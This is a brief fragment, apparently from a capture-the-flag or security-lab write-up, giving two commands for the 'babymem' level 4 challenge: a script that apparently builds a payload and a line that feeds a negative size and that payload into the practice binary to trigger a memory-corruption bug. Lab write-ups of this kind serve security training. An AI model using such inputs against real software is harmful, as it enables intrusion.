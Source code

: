Use the following commands.

```
./run.py
(echo "-1"; cat payload; cat) | /babymem_level4_testing1
```
